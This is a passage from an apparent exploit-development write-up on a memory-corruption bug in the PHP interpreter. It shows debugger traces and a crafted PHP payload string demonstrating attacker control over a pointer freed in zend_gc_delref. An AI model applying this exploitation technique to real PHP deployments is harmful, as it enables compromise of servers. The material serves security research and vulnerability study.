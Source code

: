 ```c
[#9] 0x555555d012b1 → do_cli(argc=0x2, argv=0x55555678a350)
```

As we can see part of our pattern arrived to the `zend_gc_delref` function and crashed. This function tries to decrease the reference counter, and it is called from `i_zval_ptr_dtor`:
```c
static zend_always_inline void i_zval_ptr_dtor(zval *zval_ptr)
{
	if (Z_REFCOUNTED_P(zval_ptr)) {
		zend_refcounted *ref = Z_COUNTED_P(zval_ptr);
		if (!GC_DELREF(ref)) {
			rc_dtor_func(ref);
		} else {
			gc_check_possible_root(ref);
		}
	}
}
```

This function is used to destroy the variable passed as argument (a pointer to the desired `zval`, we can see the pointer is the same used as `result` in the concatenation). In our case a pointer to part of the faked contents at `$buf`. So if we change that part for "X" we should verify that we can control what is going to be released:

```php
 $buf = str_repeat("AAABAACAADAAEAAF" . XXXXXXXX . "IAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFABGABHABIABJABKABLABMABNABOABPABQABRABSABTABUABVABWABXABY", 0x1);
 ```

 ```c
   1034	 	ZEND_RC_MOD_CHECK(p);
   1035	 	return ++(p->refcount);
   1036	 }
   1037	 
   1038	 static zend_always_inline uint32_t zend_gc_delref(zend_refcounted_h *p) {
          // p=0x007fffffff72b8  →  0x5858585858585858
 → 1039	 	ZEND_ASSERT(p->refcount > 0);
   1040	 	ZEND_RC_MOD_CHECK(p);
   1041	 	return --(p->refcount);
   1042	 }
   1043	 
   1044	 static zend_always_inline uint32_t zend_gc_addref_ex(zend_refcounted_h *p, uint32_t rc) {
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "php", stopped 0x555555b44b2f in zend_gc_delref (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555b44b2f → zend_gc_delref(p=0x5858585858585858)
[#1] 0x555555b44b2f → i_zval_ptr_dtor(zval_ptr=0x7ffff3e5d328)
[#2] 0x555555b44b2f → concat_function(result=0x7ffff3e5d328, op1=0x7fffffff7310, op2=0x7fffffff7320)
[#3] 0x555555caf02b → zend_binary_op(op2=0x7ffff3e95390, op1=0x7ffff3e5d328, ret=0x7ffff3e5d328)
[#4] 0x555555caf02b → ZEND_ASSIGN_DIM_OP_SPEC_CV_CONST_HANDLER()
[#5] 0x555555cfb257 → execute_ex(ex=0x7ffff3e13020)
[#6] 0x555555cfe6e6 → zend_execute(op_array=0x7ffff3e802a0, return_value=0x0)
[#7] 0x555555b5213c → zend_execute_scripts(type=0x8, retval=0x0, file_count=0x3)
[#8] 0x555555a8a8ae → php_execute_script(primary_file=0x7fffffffcbe0)
[#9] 0x555555d012b1 → do_cli(argc=0x2, argv=0x55555678a350)
```
